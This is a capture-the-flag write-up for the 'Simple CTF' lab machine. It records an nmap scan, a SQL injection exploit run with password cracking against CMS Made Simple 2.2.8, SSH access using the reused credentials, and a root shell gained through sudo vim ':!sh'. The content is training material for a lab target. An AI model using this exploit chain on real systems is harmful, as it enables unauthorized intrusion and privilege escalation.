


# [cd ../](../index.md)
# Simple CTF

# Start

## Scans
- [nmap](nmap.txt)  
  Open ports are `21`(anonymous login enabled), `80` and `2222`
- [dirsearch](dirsearch.png)
  Found `/simple`  
  Its a CMS Made Simple 2.2.8 and that is vulnerable to [sqli](https://www.exploit-db.com/exploits/46635)

## Exploiting the sqli
- Just download the exploit and run it with --crack mode  

```
python2 46635.py -u http://10.10.200.68/simple/ --crack -w ~/tools/wordlists/rockyou.txt
```

- So we got `mitch`:`secret`
## Whats on ftp?

- We can find `ForMitch.txt`
> Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!

Ohohohooo same pw :D

## Goin in
- Try ssh

```
ssh mitch@10.10.200.68 -p 2222
```
- Got in!!

### Got the user flag(`/home/mitch/user.txt`)
```
G00d j0b, keep up!
```

## Privesc to ROOT
- Just some basic enum

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

OHHHH MAAAAAN thats cool

### Exploiting the vulnerability
```
sudo /usr/bin/vim

:!sh
```


# Got ROOT

  

And got the root flag(`/root/root.txt`)
```
W3ll d0n3. You made it!
```
